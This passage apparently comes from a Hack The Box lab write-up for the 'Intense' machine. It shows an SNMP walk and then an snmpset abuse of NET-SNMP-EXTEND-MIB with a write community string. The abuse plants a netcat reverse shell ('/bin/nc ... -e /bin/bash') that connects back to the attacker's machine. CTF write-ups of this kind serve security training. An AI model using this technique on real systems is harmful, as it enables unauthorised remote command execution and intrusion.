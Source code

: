 ```text
SNMPv2-MIB::sysORID.2 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: IP-MIB::ip
SNMPv2-MIB::sysORID.8 = OID: UDP-MIB::udpMIB
SNMPv2-MIB::sysORID.9 = OID: SNMP-NOTIFICATION-MIB::snmpNotifyFullCompliance
SNMPv2-MIB::sysORID.10 = OID: NOTIFICATION-LOG-MIB::notificationLogMIB
SNMPv2-MIB::sysORDescr.1 = STRING: The MIB for Message Processing and Dispatching.
SNMPv2-MIB::sysORDescr.2 = STRING: The management information definitions for the SNMP User-based Security Model.
SNMPv2-MIB::sysORDescr.3 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.4 = STRING: The MIB module for SNMPv2 entities
SNMPv2-MIB::sysORDescr.5 = STRING: View-based Access Control Model for SNMP.
SNMPv2-MIB::sysORDescr.6 = STRING: The MIB module for managing TCP implementations
SNMPv2-MIB::sysORDescr.7 = STRING: The MIB module for managing IP and ICMP implementations
SNMPv2-MIB::sysORDescr.8 = STRING: The MIB module for managing UDP implementations
SNMPv2-MIB::sysORDescr.9 = STRING: The MIB modules for managing SNMP Notification, plus filtering.
SNMPv2-MIB::sysORDescr.10 = STRING: The MIB module for logging SNMP Notifications.
```

Not much information gained from SNMP walk

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                             130 ⨯ 2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
```

[https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e)

> snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c   host-with-snmpd.lan  'nsExtendStatus."command"' = createAndGo  'nsExtendCommand."command"' = /bin/echo  'nsExtendArgs."command"' = 'hello world'

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/bin/nc 10.10.15.100 55541 -e /bin/bash' 'nsExtendArgs."command"'    = 'hello world' 
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /bin/nc 10.10.15.100 55541 -e /bin/bash
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: hello world
```
